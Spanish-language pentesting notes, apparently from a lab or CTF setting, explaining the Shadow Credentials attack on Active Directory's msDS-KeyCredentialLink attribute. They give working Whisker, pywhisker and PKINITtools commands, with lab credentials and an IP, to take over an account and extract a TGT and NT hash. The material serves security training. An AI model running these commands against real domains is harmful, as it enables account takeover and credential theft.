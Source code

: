 # Info

- Tecnica de account takeover.
- Consiste en inyectar claves propias en el atributo msDS-KeyCredentialLink de un usuario/computadora
- Permite obtener un TGT mediante PKINIT.

### Requisitos

- DC > 2016
- Infraestructura PKI
- permisos de: GenericAll, GenericWrite o WriteProperty sobre msDS-KeyCredentialLink.

###### En bloodhound el permiso para escribir el msDS-KeyCredentialLink figura como "AddKeyCredentialLink"

### msDS-KeyCredentialLink

Este atributo contiene credenciales de clave, que son objetos serializados que incluyen información como la fecha de creación, el nombre completo del propietario, un GUID que representa el ID del dispositivo y, por supuesto, la clave pública. Dado que una cuenta puede tener varios dispositivos vinculados, msDS-KeyCredentialLinkes un atributo multivalor.


# Abuso

## Desde windows

### Wihisker

    .\\Whisker.exe add /target:<user>

Luego usamos el output de rubeus que nos da el script para obetener un ticket y hacer un ptt (lo más performante si hay kerberos) o el NTML hash para hacer PTH.



## Desde linux

### PyWhisker - PKinittools
#### Repos
    git clone -q https://github.com/ShutdownRepo/pywhisker


    git clone -q https://github.com/dirkjanm/PKINITtools
### Explotación

    python  pywhisker.py -d lab.local -u jeffry -p Music001 --target gabriel --action add --dc-ip 10.129.234.190

Esto nos creará un **.pfx** y una contraseña para que luego extraigamos el hash o el ticket con PKINITtools.


    python gettgtpkinit.py -cert-pfx ../pywhisker/pywhisker/EVptFwRk.pfx -pfx-pass Kv9rINEQDdmn32Nm8YkZ lab.local/gabriel gabriel.ccache -dc-ip 10.129.234.190

esto nos dara una key para usar con getnthash

    KRB5CCNAME=gabriel.ccache python3 getnthash.py -key 82294f48faa6dcc73a280af0f641db91adfd7e295bb4d77263201ccf550bac7e lab.local/gabriel -dc-ip 10.129.234.190




